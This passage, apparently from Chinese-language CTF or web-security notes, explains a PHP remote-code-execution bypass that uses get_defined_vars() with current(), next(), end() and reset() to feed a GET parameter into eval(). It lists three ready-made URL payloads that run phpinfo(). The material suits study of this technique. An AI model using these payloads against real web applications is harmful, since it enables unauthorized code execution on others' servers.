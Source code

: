 ### 0x02 get_defined_vars()+current()+current()/next()/end()/reset()---通用

get_defined_vars()获取的全局变量$_GET $_POST $_FILES $_COOKIE$REQUEST等，它的返回值是一个二维数组，我们利用GET方式传入的参数在第一个数组中。这里我们就需要先将二维数组转换为一维数组，我们可以用到current()函数，这个函数的作用是返回数组中的当前单元值，而它的默认是第一个单元，也就是我们GET方式传入的参数。

这里还有一个专门针对$_FILES下手的方法，可以参考这篇文章：https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/

**常用攻击payload:(自己根据具体环境调试，用var_dump()或者print_r()函数打印，一步步调试即可)**

- ?exp=eval(next(reset(get_defined_vars())));&fuck=phpinfo();
- ?exp=eval(end(current(get_defined_vars())));&fuck=phpinfo();
- ?fuck=phpinfo();&exp=eval(reset(current(get_defined_vars())));

![image-20231018154254260](assets/image-20231018154254260.png)

![image-20231018154938780](assets/image-20231018154938780.png)

